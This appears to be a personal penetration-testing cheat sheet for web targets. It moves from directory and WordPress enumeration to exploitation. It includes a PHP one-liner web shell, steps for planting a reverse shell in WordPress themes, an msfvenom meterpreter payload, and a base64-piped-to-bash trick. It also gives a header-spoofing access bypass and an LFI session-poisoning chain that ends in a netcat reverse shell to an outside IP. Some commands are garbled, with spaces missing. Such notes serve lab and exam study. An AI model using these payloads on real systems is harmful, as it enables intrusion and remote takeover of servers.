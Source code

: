 ## Directory Enumeration
Dirsearch
```
dirsearch -u url
```
FFUF
```
- ffuf -c -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u url -mc(to filter needed status codes), -e txt,php,csv,md,json,js,html,py,sh (extension),-fs 80 (filter response size 80)
```
Gobuster
```
gobuster dir -w /usr/share/seclists/Discovery/Web_Content/common.txt -t 100 -x txt,php,csv,md,json,js,html,py,sh,pdf,config -u url
```
or
```
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt-xtxt,php,csv,md,json,js,html,py,sh,pdf,config -t 100 -u url
```
or use -k to ignore ssl verify
```
gobuster dir -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories-lowercase.txt -t 100 -x txt,php,csv,md,json,js,html,py,sh,pdf -u url
```
Note : For FFUF use ”Authorization: Basic YWRtaW46YWRtaW4=" -H for header if needed
- [ ] Check For UNC Paths IP/File In Parameters

## Wordpress
enumerate users & vulnerable plugins
```
wpscan --url http://10.10.10.10 -e u,vp
```
or
```
wpscan --url "http://10.0.2.19/wordpress" -e at,ap,u
```
If username is admin try default credentials
( might consume lot time have this as last option try to identify password by any leakage or hint, enumeration)
Bruteforce with wpscan [[BruteForce#WPScan]]

### Upload Revshell
Try to create shell.php with php reverse shell payload in themes or plugin and try to open it with listening nc in kali (Need Write permission)  
Use php-reverse-shell.php 
or  
```
msfvenom -p php/meterpreter/reverse_tcp lhost=ip lport=port R (R for Raw Format)
``` 
If created in Appearance themes it will be in
/wordpress/wp-content/themes/twentynineteen/secret.php

## Analyze the response of request
```
curl http://IP-victim
```

## WAF Bypass
Got Access Denied ?
```
curl http://ip/logs
```
Try this : (hope success)
```
curl http://ip/logs -H "X-Forwaded-For: localhost"
```

## RCE 
PHP One Liner
```
<?phpsystem($_POST["cmd"]);?>
```
If you got RCE and reverse shell payload is not working. Try encoding it in base64.
```
echo "payload" | base64
```
in vulnerable parameter -> echo "b64 encoded payload" | base64 -d | bash
## API 
Creating a Pattern File to bruteforce using GoBuster 
{GOBUSTER}/v1  
{GOBUSTER}/v2

```
gobuster dir -u http://192.168.229.143 -w /usr/share/wordlists/dirb/big.txt -p pattern
```

Found MillHouse Web APP ?
- Register a user with name <?phpsystem($_POST["cmd"]);?>
- And try exploit - https://www.exploit-db.com/exploits/47121  
Login once and record REQUEST by burp suite, base on login request and modify it to continue and now,use LFI to include below PATH  
- /var/lib/php/sessions/sess_<mysession> 
such as,
- /var/lib/php/sessions/sess_qqqqqqqqqqqqqqqqqqqqqqqqqqq  
And write command you want to execute such as reverse shell in POST variability ,such as below(better to use your own revershell payload).
- &cmd=nc8.8.8.84444-e/bin/bash  
Now we have shell,and we can find local.txt in /var/www 
PE  
Execute sudo -l
